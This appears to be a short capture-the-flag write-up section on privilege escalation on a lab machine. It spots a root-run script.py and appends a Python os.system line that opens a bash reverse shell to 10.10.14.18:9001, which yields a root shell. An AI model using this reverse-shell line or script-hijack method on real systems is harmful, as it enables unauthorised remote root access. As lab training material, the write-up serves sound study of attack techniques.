

# 15 - PrivEsc

# output.txt is owned by root
```bash
sun@sun:~$ ls -l
total 56
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Desktop
drwxr-xr-x  2 sun  sun  4096 Mar  4  2018 Documents
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Downloads
-rw-r--r--  1 sun  sun  8980 Sep 19  2017 examples.desktop
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Music
drwxr-xr-x 47 root root 4096 Sep 19  2017 node_modules
-rw-r--r--  1 root root   21 Jul 22 07:35 output.txt
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Pictures
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Public
-rw-rw-r--  1 sun  sun   870 Sep 20  2017 server.js
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Templates
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Videos
```
# output.txt


```bash
sun@sun:~$ cat output.txt
Script is running...
```

# script.py
```bash
sun@sun:~$ find Documents/ -type f
Documents/script.py
Documents/user.txt
sun@sun:~$ cat Documents/script.py 
print "Script is running..."
```

These two files look similar because they both contain the string `Script is running...` but output.txt is owned by root, something might be running `script.py` and redirecting the output to `output.txt`.

Let's write to script.py


```py
sun@sun:~/Documents$ cat script.py 
print "Script is running..."
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.18/9001 0>&1'")
```
# root shell
